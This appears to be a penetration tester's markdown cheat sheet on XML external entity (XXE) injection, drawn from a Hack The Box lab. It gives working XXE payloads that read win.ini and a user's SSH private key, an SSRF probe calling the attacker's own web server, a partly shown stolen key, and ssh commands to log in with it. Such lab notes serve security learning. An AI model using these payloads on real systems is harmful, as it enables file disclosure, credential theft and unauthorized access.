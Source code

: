 # XXE Injection
https://portswigger.net/web-security/xxe

https://whitehats.pwr.edu.pl/research/xxe-injection/

https://book.hacktricks.wiki/en/pentesting-web/xxe-xee-xml-external-entity.html

https://github.com/EdOverflow/bugbounty-cheatsheet/blob/master/cheatsheets/xxe.md

## Examples
Legit POST request:
```
POST /process.php HTTP/1.1
Host: 10.129.95.192
[...]
Connection: keep-alive

<?xml version = "1.0"?>
<order><quantity>1</quantity><item>Home Appliances</item><address>adsadasads</address></order>
```
### LFI
Test LFI (IF we se the output on the HTTP Response)
HTTP Request
```
POST /process.php HTTP/1.1
Host: 10.129.95.192
[...]
Connection: keep-alive

<?xml version = "1.0"?>
<!DOCTYPE xxe [
    <!ENTITY lfi SYSTEM "file:///c:/windows/win.ini">
]>
<order><quantity>1</quantity><item>&lfi;</item><address>aaaa</address></order>
```
HTTP Response
```
Your order for ; for 16-bit app support
[fonts]
[...]
COM1:=9600,n,8,1
 has been processed
```

### SSRF
Test SSFR to confirm vulnerability
1. Run Python web server on Kali
```
python -m http.server 8081
```
2. Try to perform SSRF
```
POST /process.php HTTP/1.1
Host: 10.129.95.192
[...]
Connection: keep-alive

<?xml version = "1.0"?>
<!DOCTYPE xxe [
    <!ENTITY ssrf SYSTEM "http://<KALI IP>:8081">
]>
<order><quantity>1</quantity><item>Home Appliances</item><address>&ssrf;</address></order>
```
3. We see connection to Python webserver confirming the vuln!

### LFI via SSRF
Great when we want to see file (LFI) but web server does not return our data in HTTP response
https://whitehats.pwr.edu.pl/research/xxe-injection/#ssrf-and-lfi-via-xxe-injection


## HTB Exmaple
In HTB example the webserver was running windows and also had a n open SSH port.
From reading source code we could guess username 'daniel'
HTTP Request
```
POST /process.php HTTP/1.1
Host: 10.129.95.192
[...]
Connection: keep-alive

<?xml version = "1.0"?>
<!DOCTYPE xxe [
    <!ENTITY lfi SYSTEM "file:///c:/users/daniel/.ssh/id_rsa">
]>
<order><quantity>1</quantity><item>&lfi;</item><address>aaaa</address></order>
```
HTTP Response
```
Your order for -----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
[...]
vRCD2pONhqZOjinGfGUMml1UaJZzxZs6F9hmOz+WAek89dPdD4rBCU2fS3J7bs9Xx2PdyA
m3MVFR4sN7a1cAAAANZGFuaWVsQEVudGl0eQECAwQFBg==
-----END OPENSSH PRIVATE KEY-----
 has been processed
```
Now we can use it to log in via SSH.
```
# Use chmod so we don't need to supply password
chmod 400 id_rsa  
ssh -i id_rsa daniel@<webserver IP>
```

